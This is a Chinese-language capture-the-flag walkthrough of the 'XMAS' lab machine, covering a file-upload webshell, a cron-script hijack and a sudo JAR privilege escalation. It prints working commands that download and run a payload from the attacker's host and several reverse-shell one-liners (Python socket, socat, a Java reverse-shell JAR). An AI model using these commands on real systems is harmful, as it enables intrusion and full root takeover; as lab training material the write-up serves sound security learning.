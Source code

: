 ```yaml
---
title: XMAS
tags:
  - sec
date: 2024-02-14T17:08:44
lastmod: 2025-09-29T20:51:34
toc: "true"
---
```

## 靶机, 启动
```bash
192.168.10.16
```
## 端口扫描

![HMM_XMAS_image_1](https://img.l1uyun.one/HMM_XMAS_image_1.png)


![HMM_XMAS_image_2](https://img.l1uyun.one/HMM_XMAS_image_2.png)

## web 服务
目录扫描

![HMM_XMAS_image_3](https://img.l1uyun.one/HMM_XMAS_image_3.png)

在主页的下面发现了一个上传点, 直接上传反弹 shell

![HMM_XMAS_image_4](https://img.l1uyun.one/HMM_XMAS_image_4.png)

使用 nc 失败, 换成了 webshell

![HMM_XMAS_image_5](https://img.l1uyun.one/HMM_XMAS_image_5.png)


![HMM_XMAS_image_6](https://img.l1uyun.one/HMM_XMAS_image_6.png)
然后还是用了 meterpreter

```bash
wget http://192.168.10.11:8000/shell.elf -O /tmp/shell.elf&&chmod 777 /tmp/shell.elf
```
## www-data ,进一步收集信息

/home/alabaster/nice_list. txt

![HMM_XMAS_image_7](https://img.l1uyun.one/HMM_XMAS_image_7.png)

这有个 python 代码,. 在 linpeas. sh 枚举之后发现是定时任务, 并且是可写的

![HMM_XMAS_image_8](https://img.l1uyun.one/HMM_XMAS_image_8.png)


```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.11",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > nice_or_naughty.py


echo 'import subprocess; subprocess.call(["/tmp/newshell.elf"])' > nice_or_naughty.py
```

又是这样子不稳定的 shell

![HMM_XMAS_image_9](https://img.l1uyun.one/HMM_XMAS_image_9.png)

上传一个 socat 二进制文件上去算了

```bash
echo 'import subprocess; subprocess.call(["/tmp/socat", "TCP:192.168.10.11:4445", "EXEC:/bin/bash,pty,stderr,setsid,sigint,sane"])' > nice_or_naughty.py
```
还是不行

![HMM_XMAS_image_10](https://img.l1uyun.one/HMM_XMAS_image_10.png)
## User-alabaster
巨魔大佬 nb

又学到一个工具 pwncat
![HMM_XMAS_image_11](https://img.l1uyun.one/HMM_XMAS_image_11.png)

## 提权_sudo 执行 jar
![HMM_XMAS_image_12](https://img.l1uyun.one/HMM_XMAS_image_12.png)

利用 sudo 涉及的文件可写, 用 gpt 生成了个 java 的反弹 shell

```bash
## 编译成java字节码
javac ReverseShell.java


## JAR文件需要一个清单文件（Manifest），这个文件指定了JAR的主类（包含main方法的类）。主类是当JAR文件被执行时首先加载的类。
echo 'Main-Class: ReverseShell' > Manifest.txt


## 使用jar命令和上面创建的清单文件将编译后的.class文件打包成一个JAR文件。命令格式如下：
jar cfm ReverseShell.jar Manifest.txt ReverseShell.class
```

![HMM_XMAS_image_13](https://img.l1uyun.one/HMM_XMAS_image_13.png)

```bash
cd /tmp 
wget http://192.168.10.11:8000/ReverseShell.jar
cp ReverseShell.jar /home/alabaster/PublishList/PublishList.jar
sudo -u root /usr/bin/java -jar /home/alabaster/PublishList/PublishList.jar
```

![HMM_XMAS_image_14](https://img.l1uyun.one/HMM_XMAS_image_14.png)

![HMM_XMAS_image_15](https://img.l1uyun.one/HMM_XMAS_image_15.png)